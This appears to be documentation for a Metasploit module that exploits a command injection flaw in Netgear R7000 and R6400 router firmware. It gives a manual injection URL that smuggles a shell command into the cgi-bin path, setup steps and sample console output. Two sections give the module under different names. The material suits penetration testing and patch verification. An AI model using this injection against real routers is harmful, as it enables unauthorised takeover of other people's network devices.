 The netgear_r7000_command_injection module exploits a command injection vulnerability in Netgear R7000 and R6400 router firmware version `1.0.7.2_1.1.93` and possibly earlier. The vulnerability is found in the `/cgi-bin/` folder of the router. A manual injection would look like so: `http://<RouterIP>/cgi-bin/;echo$IFS"cowsay"`. This will echo 'cowsay' on the router. 


## Vulnerable Application

Netgear R7000 and R6400 routers running firmware version `1.0.7.2_1.1.93` and possibly earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/http/netgear_r7000_cgibin_exec`
  3. Do: `set RHOST <RouterIP>`
  4. Do: `set PAYLOAD <payload>
  5. Do: `run`
  6. If the router is a R7000 or R6400, the module should run

## Options

  **RHOST**

  This should usually be the local IP address of the vulnerable router.

  **PAYLOAD**
  
  The valid payloads are `unix cmd` payloads _only_, as this is a command execution module

## Scenarios

  Sample output of what it should look like. 

  ```
  msf > use auxiliary/scanner/http/netgear_r7000_command_injection
msf auxiliary(netgear_r7000_command_injection) > options

Module options (auxiliary/scanner/http/netgear_r7000_command_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD                       yes       Command line to execute
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The remote target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

msf auxiliary(netgear_r7000_command_injection) > set CMD echo "cowsay"
CMD => echo 'cowsay'
msf auxiliary(netgear_r7000_command_injection) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf auxiliary(netgear_r7000_command_injection) > check
[*] 192.168.1.1:80 The target service is running, but could not be validated. 
msf auxiliary(netgear_r7000_command_injection) > run

[*] Sending request to 192.168.1.1
[*] Auxiliary module execution completed
msf auxiliary(netgear_r7000_command_injection) > 
  ```
